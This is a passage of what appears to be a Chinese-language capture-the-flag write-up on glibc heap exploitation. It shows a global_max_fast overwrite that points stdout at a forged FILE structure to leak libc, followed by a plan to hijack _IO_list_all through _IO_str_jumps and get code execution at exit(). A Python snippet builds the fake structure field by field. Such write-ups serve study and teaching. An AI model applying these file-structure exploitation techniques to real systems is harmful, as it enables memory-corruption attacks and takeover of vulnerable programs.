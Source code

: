 P.S. glibc 2.25 source code 並沒有這段檢查，至少要在 glibc 2.26 才會有，不過官方提供的 library 是有這個檢查機制的

到這邊， `heap_base + 0x100` 開始即是 fake `_IO_2_1_stdout_` 的起頭，除了 `write` 相關的 pointer 以及 flag，其他都與 `_IO_2_1_stdout_` 相同。下一步要修改用來定義 fastbin size 的 `global_max_fast`，由於 fastbinsY 的大小只有 `NFASTBINS` (10)，而在 `global_max_fast` 被更動的情況下，如果 size 超過 `MAX_FAST_SIZE` 的 chunk 其 address 會直接往後蓋，因此可以覆蓋任何 `fastbinsY` 以後的 address 成自己的 pointer，而與 `fastbinsY` 的 offset 為 `(target - fastbinY) * 2 + 0x10` (因為 size 每 0x10 會佔一個 bin)，因此可以透過此方式改寫 `stdout` variable，讓他指向我們的 fake `_IO_2_1_stdout_`。 
(修改 `MAX_FAST_SIZE` 在 glibc 2.31 已經沒辦法 work)

主要更動的地方只有 `write_base` 以及 `_flags | _IO_IS_APPENDING`，讓 `new_do_write` 時先進入 `if (fp->_flags & _IO_IS_APPENDING)` 此 condition 即可:

```python
# fake _IO_2_1_stdout_ start from heap_base + 0x100
edit(0x100, p32(0xfbad3887)) # _flags == 0xfbad2887 | _IO_IS_APPENDING
edit(0x108, p64(0)) # read_ptr
edit(0x110, p64(0)) # read_end
edit(0x110, p64(0)) # read_base
edit(0x120, p16(0xc610)) # write_base (stdout + 0x10)
edit(0x128, p16(0xc683)) # write_ptr
edit(0x130, p16(0xc683)) # write_end
edit(0x138, p16(0xc683)) # buf_base
edit(0x140, p16(0xc684)) # buf_end
edit(0x148, p64(0)*4) # save_base, backup_base, save_end, markers
edit(0x168, p16(0xb8c0)) # chain
edit(0x170, p32(1)) # fileno
edit(0x174, p32(0)) # _flags2
edit(0x178, p64(2**64 - 1)) # _old_offset
edit(0x180, p64(0)) # _cur_column _vtable_offset _shortbuf
edit(0x188, p16(0xd760)) # _lock
edit(0x190, p64(2**64 - 1)) # _offset
edit(0x198, p64(0)) # _codecvt
edit(0x1a0, p16(0xb780)) # _wide_data
edit(0x1a8, p64(0) * 3) # _freeres_list, _freeres_buf, __pad5
edit(0x1c0, p32(2**32 - 1)) # _mod
edit(0x1c4, p32(0) + p64(0)*2) # _unused2
edit(0x1d8, p16(0x8440)) # vtable
```

之後透過 `free()` chunk 就能 leak libc address。

下一步繼續利用 fastbin chunk 來覆蓋掉特定 libc 位置，這次的目標為改寫 `_IO_list_all` 成另一個 fake `FILE`，目標是利用 `exit()` 時對每個 `FILE` 執行 `vtable->overflow`，而若此時 vtable 為 `_IO_str_jumps`，就能利用控制 `_IO_buf_end` 以及 `_allocate_buffer` (0xe0)，呼叫 `_IO_str_overflow` 來執行 `(_allocate_buffer) (_IO_buf_end)`:

```c
int
_IO_str_overflow (_IO_FILE *fp, int c)
{
  ...
	  if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
		return EOF;
      else
	{
	  char *new_buf;
	  char *old_buf = fp->_IO_buf_base;
	  size_t old_blen = _IO_blen (fp);
	  _IO_size_t new_size = 2 * old_blen + 100;
	  if (new_size < old_blen)
	    return EOF;
	  new_buf
	    = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
     ...
```
